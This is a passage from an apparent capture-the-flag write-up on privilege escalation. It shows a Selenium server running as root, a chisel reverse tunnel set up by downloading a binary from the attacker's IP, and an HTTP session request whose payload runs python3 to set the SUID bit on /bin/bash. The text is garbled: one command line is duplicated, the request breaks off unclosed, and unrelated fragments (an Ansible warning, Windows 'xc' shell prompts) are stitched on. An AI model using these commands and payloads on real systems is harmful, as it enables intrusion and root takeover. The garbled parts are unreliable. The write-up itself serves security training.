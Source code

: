 ![A screenshot where we got a shell back as john](/static/images/stack-the-flags-2022/user-flag-john.png)

### Privilege Escalation

The first thing I’ve checked is the running processes as `root`. In this case, I’ve found a Selenium server running as root locally.

```bash
root         623       1  0 14:12 ?        00:00:00 /usr/sbin/cron -f -P
root         638     623  0 14:12 ?        00:00:00  \_ /usr/sbin/CRON -f -P
root         641     638  0 14:12 ?        00:00:00      \_ /bin/sh -c java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
root         643     641  0 14:12 ?        00:00:31          \_ java -jar /root/selenium-server-4.4.0.jar standalone --host 127.0.0.1
```

The idea behind exploiting Selenium is to create a session that executes code. In simpler words, we can achieve RCE through geckodriver.

First I’ll forward the port `4444` running locally on the machine to my local machine using `chisel`. I’ll run a chisel server on my machine:

```
hcue@pjsk:~/htb-trustable » chisel server -p 8888 --reverse
2022/12/05 06:10:10 server: Reverse tunnelling enabled
2022/12/05 06:10:10 server: Fingerprint H7MAdhulXPbLGvJaJWk7UmAzd8e/4NPB4rlR4eDaklQ=
2022/12/05 06:10:10 server: Listening on http://0.0.0.0:8888
```

Download chisel to the remote machine and I’ll forward the port:

```
john@electrogrid:/dev/shm$ wget 10.10.14.57/chisel
john@electrogrid:/dev/shm$ chmod +x ./chisel
john@electrogrid:/dev/shm$ ./chisel client 10.10.14.57./chisel client 10.10.14.57:8888 R:4444:127.0.0.1:4444 &
./chisel client 10.10.14.57:8888 R:4444:127.0.0.1:4444 &
```

And we’ll get a connection.

```
2022/12/05 06:11:47 server: session#1: tun: proxy#R:4444=>4444: Listening
```

Now we can access the Selenium Grid from our machine.

![A screenshot of Selenium web grid interface](/static/images/stack-the-flags-2022/selenium-grid-web.png)

And now I’ll create the malicious session where it will set the `suid` bit to the `/bin/bash` binary.

```http
POST /wd/hub/session HTTP/1.1
Host: localhost:4444
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 276

 {
    "capabilities": {
        "alwaysMatch": {
            "browserName": "chrome",
            "goog:chromeOptions": {
                "binary": "/usr/bin/python3",
                "args": ["-cimport os;os.system('chmod u+s /bin/bash')"]
            }
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname